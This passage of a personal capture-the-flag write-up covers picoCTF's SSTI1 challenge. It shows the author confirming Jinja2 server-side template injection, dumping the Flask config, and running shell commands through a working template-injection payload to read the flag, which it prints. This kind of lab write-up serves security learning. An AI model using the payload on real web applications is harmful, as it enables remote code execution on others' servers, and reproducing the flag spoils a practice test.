 ## Resources:

- (https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)


***
# 2. SSTI1

> I made a cool website where you can announce whatever you want! Try it out!

## Solution:

- Whatever you type in the input box will be outputted on the screen, for example if i type `hello`, it displays `hello` BUT if i type `{{7*7}}`, it displays `49`. this means there is a templating used
- on inputting `{{config.items()}}` (this displays system sensitive information) it outputted
 `dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])`
 (not helpful but i did it...)
- I then looked into RCE and got a builtin `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('(whatever comman)').read() }}` which will run whatever command is given in "whatever command" like how it would in a normal bash. 
- So i ran `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}` to list all the functions in it
  <img width="1915" height="587" alt="image" src="https://github.com/user-attachments/assets/6dcfabc6-3a3c-4f6d-b507-d6b68d5946d2" />
  We can try and read the .txt file given there
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}`
- This gave me the flag

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}
```

## Concepts learnt:
- SSTI - server side template injection
- RCE ( Remote Code Execution)


## Notes:

- ...i was trying to cat requirements...for some reason...
## Resources:
